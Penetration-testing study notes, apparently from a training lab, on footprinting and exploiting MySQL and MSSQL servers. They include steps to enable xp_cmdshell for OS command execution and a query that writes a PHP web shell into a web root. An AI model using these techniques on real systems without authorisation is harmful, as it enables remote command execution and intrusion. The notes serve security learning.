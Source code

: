  ## Dangerous Settings
| Settings | Description |
| --------- | ------------ |
| user | Sets which user the MySQL service will run as. |
| password | Sets the password for the MySQL user. |
| admin_address | The IP address on which to listen for TCP/IP connections on the administrative network interface. |
| debug | This variable indicates the current debugging settings. |
| sql_wanrings | This variable indicates the current debugging settings | 
| secure_file_priv | This variable is used to limit the effect of data import and export operations. |

## Footprinting the Service
- Scanning MySQL Server
```bash
sudo nmap $IP -sV -sC -p3306 --script mysql*
```

- Interaction with the MySQL Server
```bash
mysql -u root -p Password -h $IP
```

- sqlcmd
```cmd
sqlcmd -S SRVMSSQL -U root -P 'Password' -y 30 -Y 30
# -y (SQLCMDMAXVARTYPEWIDTH) and -Y (SQLCMDMAXFIXEDTYPEWIDTH) are for better output

# If we use sqlcmd, we will need to use GO after our query to execute the SQL syntax.
```

- If targeting MSSQL from Linux, we can use `sqsh` / `mssqlclient.py` as an alternative:
```bash 
sqsh -S $IP -U root -P 'Password' -h
```

- mssqlclient.py
```bash 
mssqlclient.py -p 1433 $USER@HOST

# NOTE: if using Windows Authentication, we may need to add -widows-auth flag to ensure the log in works. Play around with $USER@HOST, $DOMAIN\$USER@HOST (both with -windows-auth flag)
```

- For Windows Authentication, we need to specify the domain name /hostname of the target (inlanefreight\julio instead of just julio). Without `inlanefreight`, it will authenticate against users in SQL server.
```bash
sqsh -S $IP -U inlanefreight\\julio (or .\\julio) -P $PASSWORD -h
```

-------
## SQL Default Databases
-------------

`MySQL` default system schemas/databases:
```
- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema
```

`MSSQL` default system schemas/databases:
```
- `master` - keeps the information for an instance of SQL Server.
- `msdb` - used by SQL Server Agent.
- `model` - a template database copied for each new database.
- `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
- `tempdb` - keeps temporary objects for SQL queries.
```

#### Execute Commands
- `xp_cmdshell`: a feature of MSSQL, can be disabled/enabled by using the Policy-Based management or sp_configure
```bash
xp_cmdshell 'whoami'
Go
```

- Enable `xp_cmdshell`
```bash
# Allow Advanced options to be changed
EXECUTE sp_configure 'show advanced options', 1
GO

# Update the currently confugured value for advanced options
RECONFIGURE
GO

# To enable the feature
EXECUTE sp_configure 'xp_cmdshell', 1
GO

# To update the currently configured value for this feature
RECONFIGURE
GO
```

### Write Local Fiels
- MySQL - Write Local File
```bash
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

---------
# MSSQL CHEAT SHEET
-------------

- Show Databases
```bash 
SELECT name FROM master.dbo.sysdatabases
GO
```

- Select Databases;
```bash
USE $DATABASE_NAME
GO
```

- Show Tables
```bash
SELECT table_name FROM $DATABASE_NAME.INFORMATION_SCHEMA.TABLES
GO
```

* Select all data from a table
```bash
SELECT * FORM $TABLE_NAME
GO
```
